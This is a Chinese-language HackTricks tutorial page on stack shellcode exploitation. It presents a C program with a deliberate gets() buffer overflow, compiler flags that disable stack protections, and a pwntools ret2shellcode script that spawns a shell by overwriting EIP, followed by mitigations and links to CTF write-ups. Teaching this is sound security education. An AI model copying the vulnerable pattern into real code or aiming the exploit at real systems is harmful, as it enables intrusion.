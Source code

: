 # Stack Shellcode

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

**Stack shellcode** 是一种用于 **二进制利用** 的技术，攻击者将 shellcode 写入易受攻击程序的栈中，然后修改 **指令指针 (IP)** 或 **扩展指令指针 (EIP)** 以指向该 shellcode 的位置，从而导致其执行。这是一种经典的方法，用于获得未授权访问或在目标系统上执行任意命令。以下是该过程的分解，包括一个简单的 C 示例以及如何使用 Python 和 **pwntools** 编写相应的利用代码。

### C 示例：一个易受攻击的程序

让我们从一个简单的易受攻击的 C 程序示例开始：
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
char buffer[64];
gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
vulnerable_function();
printf("Returned safely\n");
return 0;
}
```
这个程序由于使用了 `gets()` 函数而容易受到缓冲区溢出的攻击。

### 编译

要在禁用各种保护的情况下编译此程序（以模拟一个易受攻击的环境），您可以使用以下命令：
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-fno-stack-protector`: 禁用栈保护。
* `-z execstack`: 使栈可执行，这对于执行存储在栈上的 shellcode 是必要的。
* `-no-pie`: 禁用位置无关可执行文件，使预测我们的 shellcode 将位于的内存地址更容易。
* `-m32`: 将程序编译为 32 位可执行文件，通常用于简化漏洞开发。

### 使用 Pwntools 的 Python 漏洞

以下是如何使用 **pwntools** 在 Python 中编写一个漏洞以执行 **ret2shellcode** 攻击：
```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```
这个脚本构造了一个有效载荷，由**NOP滑块**、**shellcode**组成，然后用指向NOP滑块的地址覆盖**EIP**，确保shellcode被执行。

**NOP滑块**（`asm('nop')`）用于增加执行“滑入”我们的shellcode的机会，而不管确切的地址是什么。调整`p32()`参数为你的缓冲区起始地址加上一个偏移量，以便落入NOP滑块。

## 保护措施

* [**ASLR**](../../common-binary-protections-and-bypasses/aslr/) **应该被禁用**，以确保地址在执行之间是可靠的，否则存储函数的地址不会总是相同，你需要一些泄漏来找出win函数加载的位置。
* [**栈金丝雀**](../../common-binary-protections-and-bypasses/stack-canaries/) 也应该被禁用，否则被破坏的EIP返回地址将永远不会被跟随。
* [**NX**](../../common-binary-protections-and-bypasses/no-exec-nx.md) **栈**保护将阻止在栈内执行shellcode，因为该区域将不可执行。

## 其他示例与参考

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
* [https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html)
* 64位，ASLR与栈地址泄漏，写入shellcode并跳转到它
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html)
* 32位，ASLR与栈泄漏，写入shellcode并跳转到它
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html)
* 32位，ASLR与栈泄漏，比较以防止调用exit()，用一个值覆盖变量并写入shellcode并跳转到它
* [https://8ksec.io/arm64-reversing-and-exploitation-part-4-using-mprotect-to-bypass-nx-protection-8ksec-blogs/](https://8ksec.io/arm64-reversing-and-exploitation-part-4-using-mprotect-to-bypass-nx-protection-8ksec-blogs/)
* arm64，无ASLR，ROP小工具使栈可执行并跳转到栈中的shellcode

{% hint style="success" %}
学习与实践AWS黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践GCP黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**关注**我们在**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github库提交PR分享黑客技巧。

</details>
{% endhint %}
